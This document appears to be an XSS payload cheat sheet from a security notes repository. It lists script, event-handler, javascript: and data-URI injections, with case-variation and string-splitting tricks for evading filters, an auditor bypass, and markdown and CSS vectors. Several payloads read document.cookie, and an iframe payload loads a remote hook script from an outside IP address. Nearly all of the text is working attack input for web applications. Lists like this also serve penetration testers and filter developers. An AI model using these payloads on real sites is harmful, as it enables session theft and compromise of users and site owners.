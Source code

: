 Payload
================================

Commonly used
---------------------------------------------------

- ``<script>alert(/xss/)</script>``
- ``<svg onload=alert(document.domain)>``
- ``<img src=document.domain onerror=alert(document.domain)>``
- ``<M onmouseover=alert(document.domain)>M``
- ``<marquee onscroll=alert(document.domain)>``
- ``<a href=javascript:alert(document.domain)>M</a>``
- ``<body onload=alert(document.domain)>``
- ``<details open ontoggle=alert(document.domain)>``
- ``<embed src=javascript:alert(document.domain)>``

Case bypass
---------------------------------------------------

- ``<script>alert(1)</script>``
- ``<sCrIpT>alert(1)</sCrIpT>``
- ``<ScRiPt>alert(1)</ScRiPt>``
- ``<sCrIpT>alert(1)</ScRiPt>``
- ``<ScRiPt>alert(1)</sCrIpT>``
- ``<img src=1 onerror=alert(1)>``
- ``<iMg src=1 oNeRrOr=alert(1)>``
- ``<ImG src=1 OnErRoR=alert(1)>``
- ``<img src=1 onerror="alert("M")">``

- ``<marquee onscroll=alert(1)>``
- ``<mArQuEe OnScRoLl=alert(1)>``
- ``<MaRqUeE oNsCrOlL=alert(1)>``

Various alerts
---------------------------------------------------

- ``<script>alert(1)</script>``
- ``<script>confirm(1)</script>``
- ``<script>prompt(1)</script>``
- ``<script>alert('1')</script>``
- ``<script>alert("1")</script>``
- ``<script>alert`1`</script>``
- ``<script>(alert)(1)</script>``
- ``<script>a=alert,a(1)</script>``
- ``<script>[1].find(alert)</script>``
- ``<script>top["al"+"ert"](1)</script>``
- ``<script>top["a"+"l"+"e"+"r"+"t"](1)</script>``
- ``<script>top[/al/.source+/ert/.source](1)</script>``
- ``<script>top[/a/.source+/l/.source+/e/.source+/r/.source+/t/.source](1)</script>``

Pseudo-Protocol
---------------------------------------------------

- ``<a href=javascript:/0/,alert(%22M%22)>M</a>``
- ``<a href=javascript:/00/,alert(%22M%22)>M</a>``
- ``<a href=javascript:/000/,alert(%22M%22)>M</a>``
- ``<a href=javascript:/M/,alert(%22M%22)>M</a>``


Chrome XSS auditor bypass
---------------------------------------------------

- ``?param=https://&param=@z.exeye.io/import%20rel=import%3E``
- ``<base href=javascript:/M/><a href=,alert(1)>M</a>``
- ``<base href=javascript:/M/><iframe src=,alert(1)></iframe>``

Length limit
---------------------------------------------------

::

<script>s+="l"</script>
\...
<script>eval(s)</script>

jquery sourceMappingURL
---------------------------------------------------
``</textarea><script>var a=1//@ sourceMappingURL=//xss.site</script>``

Image name
---------------------------------------------------
``"><img src=x onerror=alert(document.cookie)>.gif``

Expired payload
---------------------------------------------------
- src=javascript:alert is basically not available
- CSS Expression feature is only available in older versions

css
---------------------------------------------------

::

<div style="background-image:url(javascript:alert(/xss/))">
<STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>


markdown
---------------------------------------------------

::

[a](javascript:prompt(document.cookie))
[a](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))
<”
![a'"`onerror=prompt(document.cookie)](x)
[notmalicious](javascript:window.onerror=alert;throw%20document.cookie)
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=)
![a](data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=)


iframe
---------------------------------------------------

::

<iframe onload='
var sc   = document.createElement("scr" + "ipt");
sc.type  = "text/javascr" + "ipt";
sc.src   = "http://1.2.3.4/js/hook.js";
document.body.appendChild(sc);
'
/>

- ``<iframe src=javascript:alert(1)></iframe>``
- ``<iframe src="data:text/html,<iframe src=javascript:alert('M')></iframe>"></iframe>``
- ``<iframe src=data:text/html;base64,PGlmcmFtZSBzcmM9amF2YXNjcmlwdDphbGVydCgiTWFubml4Iik+PC9pZnJhbWU+></iframe>``
- ``<iframe srcdoc=<svg/onload&equals;alert&lpar;1)>></iframe>``
- ``<iframe src=https://baidu.com width=1366 height=768></iframe>``
- ``<iframe src=javascript:alert(1) width=1366 height=768></iframe``

form
---------------------------------------------------

- ``<form action=javascript:alert(1)><input type=submit>``
- ``<form><button formaction=javascript:alert(1)>M``
- ``<form><input formaction=javascript:alert(1) type=submit value=M>``
- ``<form><input formaction=javascript:alert(1) type=image value=M>``
- ``<form><input formaction=javascript:alert(1) type=image src=1>``

meta
---------------------------------------------------

``<META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet">``

